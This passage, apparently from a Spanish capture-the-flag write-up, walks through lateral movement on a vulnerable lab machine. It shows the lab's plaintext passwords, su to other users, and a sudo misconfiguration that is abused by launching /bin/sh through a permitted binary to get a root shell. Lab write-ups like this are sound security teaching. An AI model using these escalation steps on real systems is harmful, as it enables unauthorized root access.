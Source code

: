 Como obtuvimos dos contraseñas ofuscadas, volvimos a aplicar este proceso. 
La contraseña escondida en `cryptedpass.txt` resulto ser `thisisalsopw123`

La shell no permitía cambiar el usuario, pero dentro de los intentos. se volvió a abordar la máquina con la misma revshell y pudimos obtener la autenticación:
```bash
su admin
Password: thisisalsopw123

[admin@localhost tmp]$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for admin: thisisalsopw123

Sorry, user admin may not run sudo on localhost.
[admin@localhost tmp]$
```
Después avanzamos en la escalación lateral para el usuario `fristigod`:
```bash
[admin@localhost tmp]$ su fristigod
su fristigod
Password: LetThereBeFristi!
bash-4.1$ whoami
whoami
fristigod
bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

Con esto se encontró la forma de ejecutar comandos, de la forma `sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom id`

## Resultados-PoC
Para obtener una shell con el binario por abuso de sudo, fue de la siguiente forma:
```bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/sh
sh-4.1# whoami
whoami
root
sh-4.1#
```
